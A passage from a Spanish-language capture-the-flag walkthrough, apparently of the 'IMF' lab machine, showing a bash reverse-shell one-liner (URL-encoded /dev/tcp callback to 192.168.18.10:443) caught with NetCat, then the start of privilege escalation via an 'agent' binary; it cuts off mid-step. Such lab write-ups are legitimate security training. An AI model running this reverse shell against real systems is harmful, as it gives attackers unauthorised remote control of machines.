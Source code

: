 Lo que debemos hacer ahora es ponernos en escucha con NetCat y mandarnos una Reverse Shell con la siguiente comando:

```bash
bash -c "bash -i >%26 /dev/tcp/192.168.18.10/443 0>%261"
```

Observamos que recibimos correctamente la Reverse Shell.

![Pasted image 20240902225625.png](<../assets/images/posts/2024-10-20-imf/Pasted image 20240902225625.png>)

___
## Escalada de privilegios

Ahora pasaremos a la parte de escalar nuestros privilegios para ello, en primer lugar para operar más cómodamente realizaremos un Tratamiento de la TTY. Observamos que en el directorio donde se estaban subiendo los archivos hay un fichero que contiene una flag, y vemos que como contenido tiene **agentservices**, esto nos esta dando otra pista.

![Pasted image 20240902225742.png](<../assets/images/posts/2024-10-20-imf/Pasted image 20240902225742.png>)

Si realizamos una búsqueda por archivos que se llamen **agent** nos encontraremos con el siguiente binario:
